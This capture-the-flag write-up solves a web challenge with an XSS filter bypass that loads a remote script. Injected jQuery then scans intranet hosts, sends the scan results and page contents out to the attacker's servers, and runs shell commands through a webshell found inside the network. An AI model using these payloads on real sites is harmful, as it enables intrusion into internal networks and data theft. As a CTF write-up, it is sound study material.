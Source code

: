 # Writeup for QAQ (WEB) (350)

> Solves: 16
> 
> web
> 
> http://104.199.132.251:80
> 
> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
> 
> hint2: CORS headers
  
We had a web interface:

![Screenshot_1.png](Screenshot_1.png)

After submit form, had summary, so we could test XSS prevention bypass, by us (this alert was not xss, was native in response):

![Screenshot_2.png](Screenshot_2.png)

Our XSS Payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

XSS successfully append code to body:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
So we could execute any unrestricted javascript code, from our external server.

On first we execute [hook.js](hook.js) from BeEF source.

Hint `Secret in intranet` prompted us to scan hosts in BeEF, results was:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that we checked IP nearest to founded hosts

Injected JS code (only replaced code in hook.js in our server, XSS payload was same)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server script observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was checked what was there.

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Looked nice. We had php shell from `$_GET[c]`

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```


returned flag